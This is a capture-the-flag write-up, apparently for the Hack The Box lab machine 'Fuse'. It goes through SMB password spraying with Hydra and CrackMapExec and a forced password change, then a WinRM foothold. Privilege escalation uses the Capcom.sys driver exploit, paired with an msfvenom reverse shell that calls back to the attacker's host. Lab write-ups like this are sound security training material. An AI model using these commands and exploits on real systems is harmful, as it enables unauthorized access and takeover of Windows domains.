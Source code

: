 # Fuse

## scanning

```bash
furious 10.10.10.193
nmap -sC -sV -p135,139,389,88,464,636,445,593,80,53,3269,3268,5985,9389,49694,49666,49675,49676,49667,49680,49700 -n -Pn 10.10.10.193 -oN targeted
```

![001649.png](001649.png)

we edit /etc/resolv.conf adding ``nameserver 10.10.10.193``

## 80

we enter into http://fuse.fabricorp.local like is said in nmap enumeration

![005352.png](005352.png)

![000854.png](000854.png)

![001855.png](001855.png)

![003755.png](003755.png)

![005955.png](005955.png)

## Brute Force

Users to use (save in users.txt)

* pmerton
* tlavel
* sthompson
* bhult
* administrator

### cewl

```bash
cewl --with-numbers http://fuse.fabricorp.local/papercut/logs/html/index.htm -d 10 | tee password.txt
```

### Hydra

```bash
hydra -L users.txt -P password.txt -t 64 10.10.10.193 smb -V
```
![010529.png](010529.png)

![012929.png](012929.png)

or you can use CrackMapExec

### Crack Map Exec

```bash
cme smb 10.10.10.193 -u users.txt -p password.txt
```
![012532.png](012532.png)

![015433.png](015433.png)

users:

```text
user: bhult   password: Fabricorp01
user: tlavel   password: Fabricorp01
```

## smbpasswd

we use it because its said it must be changed in next logon

```bash
smbpasswd -r 10.10.10.193 -U tlavel
rpcclient 10.10.10.193 -U tlavel
```

![010244.png](010244.png)

password: $fab@s3Rv1ce$1

enum users in a file named like domusers and clean it with

```bash
cat domusers | grep -oP '\[.*?\]'| grep -v 0x| tr -d "[]"| tee domusers.txt
```

![014356.png](014356.png)

hydra again

```bash
hydra -L domusers.txt -p '$fab@s3Rv1ce$1' -t 13 10.10.10.193 smb -V
```

![021104.png](021104.png)

### Evil win rm

```bash
evil-winrm -i 10.10.10.193 -u 'svc-print' -p '$fab@s3Rv1ce$1'
```

```bat
type C:\Users\svc-print\Desktop\user.txt
```

## Privilege Escalation

```bat
whoami /priv
```

![100322.png](100322.png)

we see that the flag **SeLoadDriverPrivilege** is enabled so we are gonna try **Capcom.sys  Driver Exploit** that we find in google searching how to exploit **SeLoadDriverPrivilege**

I found this reference https://www.tarlogic.com/en/blog/abusing-seloaddriverprivilege-for-privilege-escalation/

I'm gonna use **tandasat repository** https://github.com/tandasat/ExploitCapcom and this proof of concept https://github.com/TarlogicSecurity/EoPLoadDriver/, I'll need to compile it using visual studio code.

### Exploit preparation

#### EoPLoadDriver

First I download the file https://raw.githubusercontent.com/TarlogicSecurity/EoPLoadDriver/master/eoploaddriver.cpp, open a project in visual studio as command application and named as EoPLoadDriver,

![imgx1.png](imgx1.png)

Copy the file we download and paste there, I commend ``include "stadfs.h"`` because always have problem compiling it. It works without it. Also set Release and x64.

![imgx2.png](imgx2.png)

Finally we build the solution and open the directory to find the executable, is in ``x64/release/EoPLoadDriver.exe``, send it into your linux machine.

#### Exploit Capcom

We clone the repository https://github.com/tandasat/ExploitCapcom and open the file ExploitCapcom.sln with visual studio

![imgx3.png](imgx3.png)

we set the same as the last project in release and x64, we are gonna edit the line were it is suppose to open another terminal instead of that we write ``C:\\ProgramData\\reverse.exe `` to make the exploit start a reverse shell to our machine. And find the executable to send it into your linux machine.

#### Capcom.sys

we could find the driver here https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys, just download it.

```bash
wget https://github.com/FuzzySecurity/Capcom-Rootkit/raw/master/Driver/Capcom.sys
```

#### reverse.exe

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.141 LPORT=4444 -f exe -o reverse.exe
```

### Use the exploit

```bat
cd C:\ProgramData
upload Capcom.sys
upload EoPLoadDriver.exe
upload ExploitCapcom.exe
```

![122805.png](122805.png)

```bat
.\EoPLoadDriver.exe System\CurrentControlSet\dfserv C:\ProgramData\Capcom.sys
upload reverse.exe
.\ExploitCapcom.exe
```

![121615.png](121615.png)

```bat
type C:\Users\Administrator\Desktop\root.txt
```